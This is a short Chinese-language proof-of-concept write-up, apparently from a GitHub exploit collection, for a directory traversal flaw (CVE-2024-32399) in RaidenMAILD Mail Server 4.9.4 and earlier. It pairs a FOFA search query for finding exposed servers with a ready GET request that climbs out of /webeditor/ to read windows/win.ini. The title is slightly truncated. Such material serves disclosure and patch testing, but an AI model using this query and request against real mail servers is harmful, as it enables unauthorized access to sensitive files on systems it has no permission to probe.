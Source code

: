 # aidenMAILD 邮件服务器 路径遍历漏洞(CVE-2024-32399)

## 1.漏洞描述

RaidenMAILD是一款强大的电子邮件服务器，该软件可以在相当短的时间内将它架设起来邮件服务器，操作简单，功能齐全，稳定运作。适用于全 Windows 平台的电子邮件伺服器。RaidenMAILD Mail Server 4.9.4及之前版本中的目录遍历漏洞使远程攻击者能够通过/webeditor/组件获取敏感信息。

## 2.影响版本

RaidenMAILD Mail Server <= 4.9.4

## 3.搜索语法

```java
 fofa：body="RaidenMAILD"
```

## 4.漏洞复现

POC

```java
GET /webeditor/../../../windows/win.ini HTTP/1.1
```

![image](https://github.com/hardog123/poc-exp/assets/170905460/6aa9f0f3-0abf-4e5b-bb1d-14aaa96e398a)
